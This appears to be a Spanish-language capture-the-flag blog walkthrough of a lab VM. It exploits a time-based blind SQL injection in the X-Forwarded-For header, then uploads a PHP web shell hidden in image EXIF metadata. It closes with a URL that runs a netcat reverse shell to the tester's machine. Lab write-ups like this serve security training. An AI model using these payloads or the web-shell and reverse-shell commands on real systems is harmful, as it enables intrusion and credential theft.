 ```yaml
---
layout: post
title: From QSL to Shell II
subtitle: "From QSL to Shell II"
tag: [python,SQLi]
---
```


## Puertos abiertos

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture
MAC Address: 00:0C:29:B5:03:7F (VMware)
```

## Servicio web 80

![web](../assets/imgs/pl/web.png)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -t 200 -c -r
[...]
.hta                    [Status: 403, Size: 169, Words: 4, Lines: 8]
.htaccess               [Status: 403, Size: 169, Words: 4, Lines: 8]
.htpasswd               [Status: 403, Size: 169, Words: 4, Lines: 8]
                        [Status: 200, Size: 1367, Words: 389, Lines: 72]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
index.php               [Status: 200, Size: 1367, Words: 389, Lines: 72]
```

Además de los métoos `GET`, `POST` y las `cookies`, hay otros valores que son susceptibles a las inyecciones SQL. En este caso particular se centrará en el valor **X-Forwarded-For** que utiliza el servidor para determinar la IP de un usuario cuando la aplicación está detrás de un proxy inverso.

Podemos probar si este valor es vulnerable creando una solicitud `HTTP GET` al servidor e inyectando SQL directamente en este valor. Usaré la explotación basada en el tiempo para probar la vulnerabilidad midiendo el tiempo de respuesta de la solicitud GET.

Desde `BurpSuite` se visualizará mejor el PoC de la inyección.

Header vulnerable: `X-Forwarded-For: test'or sleep(3)-- -`

![burp](../assets/imgs/pl/burp.png)

Entonces crearé unos scripts para obtener los datos a travéz de SQL a ciegas.

### Obtener base de datos

[ddbb.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/database.py)

![database](../assets/imgs/pl/database.png)

### Obtener tablas

[tablas.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/tablas.py)

```
[◢] Payload: test' or IF(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema='photoblog' LIMIT 7,1),3,1)=BINARY(0x76),sleep(3),1)-- -
[+] Tabla [0]: categorie
[+] Tabla [1]: pictures
[+] Tabla [2]: stats
[+] Tabla [3]
[+] Tabla [4]
[+] Tabla [5]
[+] Tabla [6]
[ ] Tabla [7]
[-] Saliendo
```

### Obtener columnas

[columnas.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/columnas.py)

![columnas](../assets/imgs/pl/columnas.png)

### Obtener registros

[resgitros](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/registros.py)

![registro](../assets/imgs/pl/registro.png)

Obteniendo la contraseña del usuario administrador

![crack](../assets/imgs/pl/crack.png)
admin :: P4ssw0rd

Después de estar logueado como usuario `admin` encuentro una opción donde se permite la subida de imágenes pero sólo con extensiones `jpg,png o gif`.

Inyecto código `php` con la herramienta `exiftool`.
```
❯ exiftool -Comment="<?php system(\$_GET['cmd']); ?>" shell.png
```

Visualizando la metadata de la imágen

```
❯ exiftool img.jpg
[...]
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php system($_GET['c']); ?>
Image Width                     : 1920
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
[...]
```

### Usuario www-data

`http://192.168.0.100/admin/uploads/1632603690.png/c.php?c=nc%20-e%20/bin/bash%20192.168.0.107%204444`

![shell](../assets/imgs/pl/shell.png)


